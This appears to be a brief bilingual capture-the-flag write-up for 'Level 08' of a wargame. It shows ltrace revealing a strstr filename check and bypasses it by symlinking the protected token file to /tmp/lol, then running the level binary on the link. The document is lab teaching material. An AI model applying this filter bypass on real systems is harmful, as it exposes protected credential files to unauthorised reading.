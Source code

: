 # Level 08
### English

The only protection to open the file is a strstr.
```
ltrace ./token lol
strstr("lol", "token")                                                                 = nil
```

So we have to send the same file name. For this we use symbolic links.
- `ln -s /home/user/levl08/token /tmp/lol'
- `./level08 /tmp/lol`

### Francais

La seul protection pour ouvrir le fichier est un strstr:
```
ltrace ./token lol
strstr("lol", "token")                                                                 = nil
```

Nous devons donc envoyer le meme nom de fichier. Pour ca nous utilisons les liens symbolique.
- `ln -s /home/user/levl08/token /tmp/lol'
- `./level08 /tmp/lol`
